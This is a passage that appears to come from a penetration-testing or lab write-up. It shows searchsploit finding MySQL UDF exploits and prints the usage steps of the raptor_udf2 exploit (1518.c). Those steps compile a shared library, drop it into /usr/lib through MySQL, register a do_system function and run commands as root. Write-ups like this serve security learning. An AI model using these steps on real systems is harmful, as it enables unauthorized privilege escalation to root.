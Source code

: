 Kali already contains a large number of exploits, so we can just use `searchsploit` to search for UDF:

```
root@kali:~# searchsploit mysql udf
---------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                    |  Path
                                                                                                                                  | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)                                                            | exploits/linux/local/1181.c
MySQL 4/5/6 - UDF for Command Execution                                                                                           | exploits/linux/local/7856.txt
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)                                                           | exploits/linux/local/1518.c
---------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

I used the third one: `exploits/linux/local/1518.c`. I copied this over to my current working directory and the instructions on how to use it are described in the file (again, cut for brevity):

```
root@kali:~# cat 1518.c
.
.
.
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
.
.
.
```
